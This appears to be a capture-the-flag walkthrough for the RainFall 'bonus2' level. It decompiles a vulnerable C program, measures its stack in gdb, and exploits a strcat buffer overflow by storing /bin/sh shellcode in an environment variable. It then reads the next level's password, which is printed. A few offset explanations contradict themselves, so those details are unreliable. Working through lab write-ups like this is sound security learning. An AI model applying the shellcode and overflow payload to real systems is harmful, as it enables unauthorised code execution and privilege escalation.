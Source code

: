 # Bonus 2

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a significant difference as mentioned in the comments of the source code. I assume this is due to optimization. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

int language = 0;

void greetuser(char *str)
{
    char buf[64];

    switch (language)
    {
    case 0:
        strcpy(buf, "Hello ");
        break;

    case 1:
        strcpy(buf, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buf, "Goedemiddag! ");
        break;
    }

    strcat(buf, str);
    puts(buf);
}

// one line difference main+31 (extra use of eax) and what appears to be a memcpy
int main(int argc, char **argv)
{
    char buf[76];
    char *ret;
    char truc[64];

    if (argc != 3)
        return 1;

    memset(buf, 0, 76);
    strncpy(buf, argv[1], 40);
    strncpy(buf + 40, argv[2], 32);

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    /* memcpy(esp, buf, 76); This happens in the assembly, I assume because of an optimization */
    greetuser(buf);
}
```

Let's focus on the `main` function. It reads input from the command line and then `strncpy` copies it to the `buf` buffer. It copies 40 bytes from the first argument and 32 bytes from the second argument. Because of the `memset` function, the `buf` buffer is null terminated.

However, the `greetuser` function is called and will concatenate the `buf` buffer with a string depending on the `language` variable. The `language` variable is set depending on the `LANG` environment variable. This will allow us to overflow the buffer and overwrite the return address of the `greetuser` function.

Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *greetuser+163 # Breaking before leave
Breakpoint 1 at 0x8048527

(gdb) r 4 2 # Run the program
Starting program: /home/user/bonus2/bonus2 4 2
Goedemiddag! päivää 4 # I had LANG=nl in this scenario

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff620       0xbffff620
ebp            0xbffff678       0xbffff678
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff678 - 0xbffff620 = 58 (88 in decimal)
```

Furthermore, we can see that our buffer is located at `-0x48(%ebp),%eax`. Since our buffer is located at `ebp - 72`, we only have to write 72 bytes before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

We can write a total of 72 bytes from the `main` function, and if our `LANG` environment variable isn't set to `nl` or `fi`, we can write 6 more bytes from the `greetuser` function. So a total of 78 bytes. Enough to overflow the buffer but not enough to write an address (we're missing 2 bytes for our address). So we'll have to set our `LANG` environment variable to `nl` or `fi`:
```bash
bonus2@RainFall:~$ export LANG=nl
```

I'll use `nl`, which will allows us to write 13 bytes from the `greetuser` function. So a total of 85 bytes. Enough to overflow the buffer and write an address.

Since we need 76 bytes to reach the return address our padding will be:
```
40 bytes from the first argument + 23 bytes from the second argument + 13 bytes from the greetuser function = 76 bytes
```

Although a ret2libc is possible, we'll use a ret2shellcode for this challenge. The ret2libc isn't straightforward in this exercise and I don't want to spend too much time on it.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus2@RainFall:~$ export EXPLOIT=`python -c "print '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus2@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 40 bytes
arg2 = padding of 23 bytes + address of the shellcode in the env

arg1 = "\x90" * 40
arg2 = "\x90" * 23 + "\xbf\xff\xf8\x48"
```

Let's run it:
```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print "\x90"*40'` `python -c 'print "\x90"*23 + "\xbf\xff\xf8\x48"[::-1]'`
Goedemiddag! ���������������������������������������������������������������H���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

We are now bonus3! Let's move on to the next level.
